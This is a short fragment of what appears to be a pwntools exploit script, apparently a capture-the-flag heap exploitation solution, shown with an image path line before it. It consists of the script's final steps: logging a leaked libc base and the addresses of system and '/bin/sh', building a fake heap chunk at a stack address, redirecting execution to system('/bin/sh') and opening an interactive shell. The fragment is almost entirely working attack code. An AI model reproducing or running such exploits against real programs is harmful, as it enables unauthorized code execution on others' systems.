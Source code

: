 ``` c

    log.info('libc leak: %s' % hex(libc_leak))
    log.info('libc_base: %s' % hex(libc_base))
    log.info('system addr: %s' % hex(system_addr))
    log.info('binsh addr: %s' % hex(binsh_addr))

    make_cycle()
    make_fake_chunk(stack_addr)
    allocate_fake_chunk(binsh_addr, system_addr)

    p.interactive()

if __name__ == '__main__':
    main()
```
